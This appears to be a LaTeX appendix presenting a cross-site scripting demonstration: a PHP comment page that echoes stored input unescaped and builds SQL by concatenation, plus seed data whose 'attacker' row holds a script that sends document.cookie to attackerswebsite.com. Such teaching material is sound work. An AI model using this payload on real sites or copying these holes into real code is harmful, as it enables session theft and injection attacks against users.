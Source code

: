 \documentclass[a4paper]{article}
\begin{document}
\appendix
\section{Cross-Site Scripting (XSS) example}

\subsection{index.php}
\begin{verbatim}
<?php
	class MyDB extends SQLite3 {
      function __construct() {
         $this->open('comments.db');
      }
   }

	if (isset($_POST['user'], $_POST['comment'])) {
		$user = $_POST['user'];
		$comment = $_POST['comment'];

		$db = new MyDB();

		$sql = 'INSERT INTO Comments VALUES(\'' . $user . '\',\'' .
        	       $comment . '\')';
		$ret = $db->exec($sql);
		$db->close();
	}

	echo '<!DOCTYPE HTML><html><head><title>Comments</title>' .
	   	 '<meta charset="utf-8"></head><body><h1>Comments</h1>';

	$db = new MyDB();

	$sql = 'SELECT * FROM Comments';
	$ret = $db->query($sql);
	while ($row = $ret->fetchArray(SQLITE3_ASSOC))
		echo '<p><b>' . $row['user'] . '</b> says:<br>' .
        	      $row['comment'] . '</p>';

	$db->close();

	echo '<h2>Add comment</h1><form action="index.php" method="post">' .
	     '<input type="text" name="user" placeholder="User name"><br>' .
	     '<input type="text" name="comment" placeholder="Comment"><br>' .
	     '<input type="submit" value="Add"><br>' .
	     '</form></body></html>';
?>
\end{verbatim}
\newpage

\subsection{comments.db}
\begin{verbatim}
CREATE TABLE Comments(
	user varchar(32),
	comment varchar(255)
);

INSERT INTO Comments VALUES('user1','Hello world!');
INSERT INTO Comments VALUES('user2','test');
INSERT INTO Comments VALUES('attacker','hello
<script>document.createElement("img").src =
"http://attackerswebsite.com/" + document.cookie</script>');
\end{verbatim}
\end{document}
